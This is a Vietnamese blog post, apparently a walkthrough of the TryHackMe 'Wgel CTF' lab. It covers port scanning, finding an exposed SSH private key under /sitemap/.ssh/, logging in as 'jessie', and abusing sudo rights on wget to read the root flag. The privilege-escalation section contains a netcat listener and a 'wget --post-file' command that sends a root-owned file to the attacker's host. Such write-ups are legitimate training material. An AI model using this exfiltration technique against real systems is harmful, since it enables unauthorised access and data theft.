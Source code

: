 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Wgel CTF"
date: "2021-09-30"
tags: [
    "tryhackme",
    "web",
    "linux",
    "ssh",
    "wget"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Wgel CTF](https://tryhackme.com/room/wgelctf). Géc gô!!!

## Reconnaissance

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

```python
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Với port 80 tôi có 1 default page apache ubuntu server. Lướt qua page thì có 1 chút kỳ lạ, tôi xem qua source code:

*`<!-- Jessie don't forget to udate the webiste -->`*

Tiếp tục dùng [dirsearch](https://github.com/maurosoria/dirsearch) để tìm web path và tôi tìm được */sitemap/*. Vào url thì đây là một blog html, cũng không có gì đặc biệt. Tôi thử check thông tin site:

```python
http://10.10.253.207/sitemap/ [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], Email[info@yoursite.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.253.207], JQuery, Modernizr[2.6.2.min], Open-Graph-Protocol, Script, Title[unapp Template], X-UA-Compatible[IE=edge]
```
Tôi thấy có Modernizr [2.6.2.min], đây là một thư viện java nên thử tìm xem có exploit nào không, tuy nhiên cũng không có gì hữu ích.
Vậy nên tôi thử tìm web path thêm lần nữa để xem ở sau */sitemap/* có gì không.

```python
200 -  955B  - /sitemap/.ssh/
200 -    2KB - /sitemap/.ssh/id_rsa
```
## SSH
Tôi sẽ thử tải ssh key này về vào login bằng username *Jessie* đã tìm được ở trên. 

```python
┌─[neo@parrot]─[~]
└──╼ $sudo ssh -i id_rsa jessie@10.10.20.15
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
8 packages can be updated.
8 updates are security updates.
Last login: Tue Jul 19 11:45:25 2022 from 10.18.3.74
jessie@CorpOne:~$ 
```
Và tôi tìm được __user flag__ trong thư mục *Document*

```python
jessie@CorpOne:~/Documents$ ls
user_flag.txt
```
## Privilege escalation
Thử check xem Jessie có truy cập file nào với quyền root hay không

```python
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Qua [GTFOBins](https://gtfobins.github.io/) để tìm wget. Có vẻ như với wget chúng ta có thể tải file về local machine.
Tôi sẽ thử dùng nó để tải root flag trong thư mục root. Và với tên *user_flag* thì tôi nghĩ root flag cũng sẽ có kiểu format như thế này. 

Thử tạo listener trên local machine và lưu dữ liệu vào file __flag__ 

```python
┌─[neo@parrot]─[~]
└──╼ $sudo nc -lnvp 80 > flag
```
Sau đó tạo 1 POST request từ remote machine đến local machine.

```python
jessie@CorpOne:/etc$ sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.18.3.74
```
Mở file __flag__ và tôi có root flag. Còn để leo thang đặc quyền bằng wget tôi sẽ nói ở 1 bài sau.

## Tổng kết

Thực sự thì bài này không có kỹ thuật gì mới, chú yếu là để luyện thêm về recon, cách login ssh bằng rsa key, sử dụng wget để lấy được file về local machine và sau đó có thể get root bằng cách đẩy file chứa password của mình.




